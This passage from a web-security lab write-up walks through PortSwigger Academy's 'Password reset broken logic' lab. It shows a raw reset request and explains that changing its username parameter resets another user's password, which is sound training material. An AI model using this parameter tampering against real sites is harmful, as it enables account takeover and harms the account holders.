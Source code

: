 **Response**
```html
<p>
	Password changed successfully!
</p>
```

Now the `administrator` password is changed logged in using that credentials to access the `administrator` account. This is a logic flaw that causes the application to be vulnerable to Authentication vulnerability.

### LAB #8: Password reset broken logic

Lab URL: https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic

**Given Credentials**

```
wiener:peter
```

Victim's Username
```
carlos
```

**Objective:** Exploit the password reset functionality to reset Carlos's user's password and log in to his account.

The site has a `/login` endpoint in which we can login to our account. There they also forgot the password functionality in which we can give our username and they sent the password reset link to his email client. The password reset link looks like the following
```url
https://0ad8002f031e11a1c1381280008e003e.web-security-academy.net/forgot-password?temp-forgot-password-token=FImsfxBXf4D0YSBu1w42jiOc6Rim7ApR
```

There we can give a New Password and Confirm the Password and its request looks like following

```
POST /forgot-password?temp-forgot-password-token=FImsfxBXf4D0YSBu1w42jiOc6Rim7ApR HTTP/2
Host: 0ad8002f031e11a1c1381280008e003e.web-security-academy.net
Cookie: session=QSaeCdd8cBWT4xKgDqZ2HaPXB24I4iFr
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
Origin: https://0ad8002f031e11a1c1381280008e003e.web-security-academy.net
Referer: https://0ad8002f031e11a1c1381280008e003e.web-security-academy.net/forgot-password?temp-forgot-password-token=FImsfxBXf4D0YSBu1w42jiOc6Rim7ApR

temp-forgot-password-token=FImsfxBXf4D0YSBu1w42jiOc6Rim7ApR&username=wiener&new-password-1=peter&new-password-2=peter
```

In the above request, we can see `username=wiener` has been given in the request if we change it with some other username i.e. `carlos` we can change its password and login into his account.
